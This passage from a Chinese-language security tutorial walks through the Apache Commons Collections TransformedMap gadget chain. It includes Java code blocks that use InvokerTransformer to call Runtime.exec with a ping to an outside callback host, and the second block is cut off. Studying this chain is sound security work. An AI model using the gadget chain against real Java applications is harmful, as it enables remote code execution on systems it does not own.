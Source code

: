在最后一行下断点一步步调试，发现运行到下图位置就结束了-->

![alt text](image-64.png)

也就是去实例化了一个内部类，想要继续执行还要继续走 iterator 方法、next 方法，这就是 for 循环干的了，再改一下上面的代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        for(Map.Entry entry: transformedMap.entrySet()){

        }
    }
}
```

此时下断点再调试，发现此时的 parent 已经被赋值了，且值为 transformedMap，如下图-->

![alt text](image-65.png)

最后直接去调用 setValue 方法，由于 transformedMap 没有重写则直接调用父类的，即可触发`parent.checkSetValue(value)`也就是`transformedMap.checkSetValue(value)`即可触发`valueTransformer.transform(value)`也就是`chainedTransformer.transform(value)`而 value 虽然等于 null，但是还有`ConstantTransformer(Runtime.getRuntime())`，最后执行`InvokerTransformer(methodName, paramTypes, argsForConstructor)`，再探茅庐的完整代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
```